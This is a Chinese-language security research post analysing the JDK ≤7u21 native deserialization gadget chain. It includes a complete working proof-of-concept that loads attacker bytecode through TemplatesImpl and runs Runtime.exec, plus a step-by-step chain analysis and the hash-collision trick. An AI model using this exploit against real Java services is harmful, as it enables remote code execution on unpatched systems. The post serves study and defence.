







## 前言

深度好文：[JDK反序列化Gadgets 7u21](https://xz.aliyun.com/t/6884)

**lalajun** 的文章永远是那么通俗易懂。

**readObject**的点我更改了一下，大家主要用的都是`HashSet.readObject()`，不过实际上几个Hash数据结构都殊途同归，我们完全也可以选择CC7 hash冲突的**Source**点 --> `Hashtable.readObject()`。

## 利用条件

- JDK <=7u21
- 仅仅依赖于jre，无需第三方库。

## 完整Poc

```java
public class Poc {
    public static void main(String[] args) throws Exception {
        ClassPool pool = ClassPool.getDefault();
        pool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
        CtClass tempExploitClass = pool.makeClass("3xpl01t");
        tempExploitClass.setSuperclass(pool.get(AbstractTranslet.class.getName()));
        String cmd = "java.lang.Runtime.getRuntime().exec(\"open -a Calculator\");";
        tempExploitClass.makeClassInitializer().insertBefore(cmd);
        byte[] exploitBytes = tempExploitClass.toBytecode();

        TemplatesImpl tmpl = new TemplatesImpl();
        Field bytecodes = TemplatesImpl.class.getDeclaredField("_bytecodes");
        bytecodes.setAccessible(true);
        bytecodes.set(tmpl, new byte[][]{exploitBytes});
        Field _name = TemplatesImpl.class.getDeclaredField("_name");
        _name.setAccessible(true);
        _name.set(tmpl, "theoyu");
        Field _class = TemplatesImpl.class.getDeclaredField("_class");
        _class.setAccessible(true);
        _class.set(tmpl, null);

        Map map = new HashMap(2);
        String magicStr = "f5a5a608";
        map.put(magicStr, "Override");

        Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor cons = clazz.getDeclaredConstructor(Class.class, Map.class);
        cons.setAccessible(true);
        InvocationHandler invocationHandler = (InvocationHandler) cons.newInstance(Templates.class, map);

        Templates proxy = (Templates) Proxy.newProxyInstance(InvocationHandler.class.getClassLoader(), new Class[]{Templates.class}, invocationHandler);
        
        Hashtable target = new Hashtable();
        target.put(proxy,2);
        target.put(tmpl,1);
        map.put(magicStr, tmpl);

        ObjectOutputStream objectOutputStream = new ObjectOutputStream(new FileOutputStream("bin/7u21Poc.bin"));
        objectOutputStream.writeObject(target);

        ObjectInputStream objectInputStream = new ObjectInputStream(new FileInputStream("bin/7u21Poc.bin"));
        objectInputStream.readObject();
    }
}
```

## 利用链分析

```
Hashtable.readObject()
  Hashtable.put()
      Proxy(Templates).equals()
        AnnotationInvocationHandler.invoke()
          AnnotationInvocationHandler.equalsImpl()
            Method.invoke()
              ...
                TemplatesImpl.getOutputProperties()
                  TemplatesImpl.newTransformer()
                    TemplatesImpl.getTransletInstance()
                      TemplatesImpl.defineTransletClasses()
                        ClassLoader.defineClass()
                        Class.newInstance()
                          ...
                            MaliciousClass.<clinit>()
                              ...
                                Runtime.exec()
```

7u21和CC3的sink完全一样的，不同的是CC3利用了CC链的 **LazyMap**连接了`transform()`，最后到达sink  `TemplatesImpl.newTransformer()`。而7u21完全依赖原生JRE，把万能的**AnnotationInvocationHandler**进行的拓展。

目光再次汇聚到 `AnnotationInvocationHandler.invoke()` ，这个方法我们可不陌生，在CC1和CC3的source部分，就是利用了动态代理，把方法调用转发给了`AnnotationInvocationHandler.invoke()`。



在 CC1 和 CC3 中，我们把目光放在了黄色框内，把可控的`memberValues` 指向 **LazyMap**。而7u21的重点在红色框。注意这里前提的if语句：

```java
if (var4.equals("equals") && var5.length == 1 && var5[0] == Object.class) {
            return this.equalsImpl(var3[0]);
        } 
```

`var4 = var2.getName()`,var2为动态代理进入这个`invoke()`的原方法，比如`proxy.xxx(a,b,c)`，那么var2就是这个xxx方法，var3数组则为[a,b,c]。要想进入`equalsImpl`，前提条件就是调用`proxy.equals()`进入了代理类。

ok现在进入 **AnnotationInvocationHandler.equalsImpl()**：



这里的type和var1都是我们可控的，走到**3**的时候，执行`var1.var5()`，只能触发没有参数的方法 --> `TemplatesImpl.newTransformer()`。其实这里如果var1是 **TemplatesImpl**的实例对象的话， `TemplatesImpl.getOutputProperties()`和`TemplatesImpl.newTransformer()`都能够触发，只不过`TemplatesImpl.newTransformer()`会排在第一个。

测试代码：

```java
public class Test1 {
    public static void main(String[] args) throws Exception {
        ClassPool pool = ClassPool.getDefault();
        pool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
        CtClass tempExploitClass = pool.makeClass("3xpl01t");
        tempExploitClass.setSuperclass(pool.get(AbstractTranslet.class.getName()));
        String cmd = "java.lang.Runtime.getRuntime().exec(\"open -a Calculator\");";
        tempExploitClass.makeClassInitializer().insertBefore(cmd);
        byte[] exploitBytes = tempExploitClass.toBytecode();

        TemplatesImpl tmpl = new TemplatesImpl();
        Field bytecodes = TemplatesImpl.class.getDeclaredField("_bytecodes");
        bytecodes.setAccessible(true);
        bytecodes.set(tmpl, new byte[][]{exploitBytes});
        Field _name = TemplatesImpl.class.getDeclaredField("_name");
        _name.setAccessible(true);
        _name.set(tmpl, "theoyu");
        Field _class = TemplatesImpl.class.getDeclaredField("_class");
        _class.setAccessible(true);
        _class.set(tmpl, null);

        Map map = new HashMap();

        Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor cons = clazz.getDeclaredConstructor(Class.class, Map.class);
        cons.setAccessible(true);
        InvocationHandler invocationHandler = (InvocationHandler) cons.newInstance(Templates.class, map);
        Templates proxy = (Templates) Proxy.newProxyInstance(InvocationHandler.class.getClassLoader(), new Class[]{Templates.class}, invocationHandler);

        proxy.equals(tmpl);
    }
}
```

接下来我们需要调用了寻找`equals()`方法。

回想CC链好像哪里出现了`equals()`？没错就是CC7，其在`Hashtable.readObject`中利用了`"yy".hashCode()=="zZ".hashCode()`巧妙的构造了hash冲突，最后走到了`e.key.equals(key)`的方法。为什么开头我会说到 **殊途同归** 呢？因为无论是**HashTable、HashMap、HashSet**，其底层数据结构都类似，Hash是根据Key来索引到Value的，那么对于每次新加入的元素，很自然的就会想到`equals()`方法对其Key进行比对。


根据最后需要构造的`proxy.equals(TemplatesImpl)`，显然我们应该是先进行了这样的操作：

```java
Hashtable target = new Hashtable();
target.put(proxy,2);
target.put(tmpl,1);
```

那么要想走到`&&` 后面的部分，前面必须成立，也就是需要满足`e.hash == hash`，注意hash键值对的hash值仅仅由key决定，那么也就是需要构造`proxy.hashCode()==tmpl.hashCode()`。

proxy为代理类对象，也就会再次走到`AnnotationInvocationHandler.invoke()`，再走到`AnnotationInvocationHandler.hashCodeImpl()`，这里的流程和之前`equals()`基本上一样。

注意这个`hashCodeImpl()`方法：



这里的memberValues是一个可控的Map



总的来说，Proxy类型的hashCode == 把Proxy的**memberValues**键值对取出来 --> `( 127 * key.hashCode() ) ^ value.hashCode()`==`tmpl.hashCode()`

key和value我们都可控，那么如果我们能够构造：

`key.hashCode()==0`,`value==tmpl`,那么上式就可以改写为：

`127*0^tmpl.hashCode()==tmplhashCode()`,这毫无疑问是成立的，而根据hashCode的运算法则，我们可以找到这样一个key：**"f5a5a608"**

ok那我们只需这样构造即可：

```java
......
Map map = new HashMap(2);
String magicStr = "f5a5a608";
//map就是proxy中的memberValues
map.put(magicStr, tmpl);
......
Hashtable target = new Hashtable();
target.put(proxy,1);
target.put(tmpl,1);
...
objectOutputStream.writeObject(target);
```

这样真的可以吗？根据CC链的经验，Hashtable的readObject实际上就是重新把键值对一个一个put回去，那么在构造payload的`target.put(tmpl,1);`地方不就触发了sink吗！并且从[CC6](https://theoyu.top/java/deserialize/CommonsCollections#cc-6)的教训来看，本地触发命令执行后，会修改底层结构类型，导致writeObject失败。所以在Poc中我们先put一个无关紧要的value，后续再重新put回来。

```java
String magicStr = "f5a5a608";
map.put(magicStr, "Override");
......
Hashtable target = new Hashtable();
target.put(proxy,1);
target.put(tmpl,1);
map.put(magicStr, tmpl);
```

## 坑点

在进行测试的时候，我发现sink并不能百分之百触发。

想要构造`proxy.equals(tmpl);`，那么反序列化就应该先反序列化`Proxy`，再反序列化`tmpl`，这就需要我们`writeObject`的时候满足一定顺序。从`Hashtable.writeObject()`可以看到，他是根据**Hashtable** 中 **index** 索引的大小顺序依次进行序列化。而**Hashtable** 的index计算，是通过 `key.hashCode%Capacity`，Capacity初始值为11。



再仔细看看`writeObject`，这里用 **链表**把table中所有非空元素串了起来，并且是把旧的元素连接到新元素的末端。也就是说`writeObject`的顺序，是index在table的相反的顺序。



那么我们希望先`writeObject`proxy，再是tmpl，那就需要保证`tmpl.hashCode()%11<proxy.hashCode()%11`。

按道理来说我们本地类写好了，这两个对象的hashCode应该是一个定值，但是调试发现proxy的确不变，但是`tmpl.hashCode()`却在改变。



前者满足反序列化顺序，后者不满足。

经过调试发现，导致导致`tmpl.hashCode`的值发生变化的原因在于是用 **javassist**框架生成字节码时，`CtClass tempExploitClass = pool.makeClass("theoyu");`每次都会生成一个新类，导致后续hashCode值发生变化。暂时没能想到好的解决办法，除非写循环判断，挑选满足条件的tmpl。

很好奇为什么网上的文章都跳过了这一点...有一些是没有考虑本地触发，有一些直接忽略了hashCode随机的问题
